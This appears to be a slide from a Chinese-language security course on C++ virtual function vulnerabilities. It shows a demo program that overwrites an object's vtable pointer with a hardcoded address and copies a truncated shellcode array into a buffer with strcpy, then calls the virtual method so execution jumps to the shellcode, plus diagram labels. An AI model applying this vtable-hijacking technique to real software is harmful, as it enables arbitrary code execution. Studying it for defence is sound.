

C++虚函数漏洞
char shellcode[]="\xFC\x68\x6A...x50\x80\x40\x00";
class Failwest{
public:
    char buf[200];
    virtual void test(void){
        cout<<"Class Vtable::test()"<<endl; };
};
Failwest overflow, *p;
void main(void){
    char *p_vtable;
    p_vtable = overflow.buf - 4;
    printf("shellcode=%p\n",shellcode);
    printf("len=%x\n", strlen(shellcode));
    p_vtable[0] = 0x00;//= shellcode+len+1-4
    p_vtable[1] = 0x81;
    p_vtable[2] = 0x40;
    p_vtable[3] = 0x00;
    strcpy(overflow.buf, shellcode);
    p = &overflow;
    p->test();
}

虚表
虚函数
对象
恶意地址
虚表指针
虚函数指针1
虚函数1
恶意代码
其他成员变量
虚函数指针2
虚函数2
虚函数指针3
...
虚函数3

overflow
p_vtable
shellcode
虚函数
指针1
buf
0x408100
0x408050